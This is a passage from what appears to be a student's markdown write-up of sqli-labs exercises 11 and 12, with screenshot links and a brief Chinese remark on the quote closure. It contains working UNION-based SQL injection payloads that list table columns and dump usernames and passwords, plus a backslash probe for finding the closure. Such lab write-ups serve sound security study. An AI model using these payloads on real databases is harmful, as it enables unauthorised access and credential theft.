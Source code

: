 

```
' union select group_concat(column_name),2 from information_schema.columns where table_schema="security" and table_name="users" #
```

![image-20220115131025305](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115131025305.png)



``` 
' union select group_concat(username),group_concat(password) from users # 
```

![image-20220115131226014](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115131226014.png)






# less12

```
\
```

![image-20220115133356532](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115133356532.png)

得到闭合方式`")`
